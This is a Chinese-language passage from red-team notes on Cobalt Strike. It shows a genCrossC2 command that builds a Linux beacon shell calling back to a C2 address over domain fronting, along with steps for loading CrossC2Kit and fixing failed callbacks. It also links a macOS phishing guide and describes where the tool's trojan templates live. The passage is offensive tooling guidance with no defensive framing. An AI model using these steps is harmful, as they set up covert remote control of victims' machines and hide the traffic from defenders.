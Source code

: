 **域前置模式下生成 shell**

```bash
# 登录 cs 生成 shell
./genCrossC2.Linux xx.xx.xx.xx 443 .cobaltstrike.beacon_keys ./lib_rebind_test.so Linux x64 shell

# 注意 mac m1 下生成的 shell , x86 运行上不了线
```

**导入 cna**

下载 https://github.com/gloxec/CrossC2/releases/download/v3.1.0/CrossC2Kit-GithubBot-2022-06-07.zip

导入 CrossC2Kit_Loader.cna

**注意**

其实可以不用 CrossC2.cna 这个脚本, 直接在 cs 服务器的命令行下生成即可, 注意生成时候的回连地址, 如果是域前置要把域前置的 ip 指定，然后 host 头要在 profile 里指定，和 genCrossC2.Linux 没有关系

如果还是上不了线,建议仔细看看这几个issue
- https://github.com/gloxec/CrossC2/issues/60
- https://github.com/gloxec/CrossC2/issues/89
- https://github.com/gloxec/CrossC2/issues/65

另外，mac m1 下生成的 shell ，x86 机器是用不了的，所以建议 cs 全套都在 x86 的机器上弄

**mac 🐎**
- [Macos钓鱼上线CS踩坑流程](https://mp.weixin.qq.com/s/ZptprvkNXRP0PNpmoXpbFg)

---

## CS 样本

目录中有一个 CobaltStrike.jar 文件，直接解压，这里面有一个名为 resources 的文件夹，就是 CobaltStrike 的配置信息，我们在 CobaltStrike 控制台生成的木马都来源于这个文件夹。
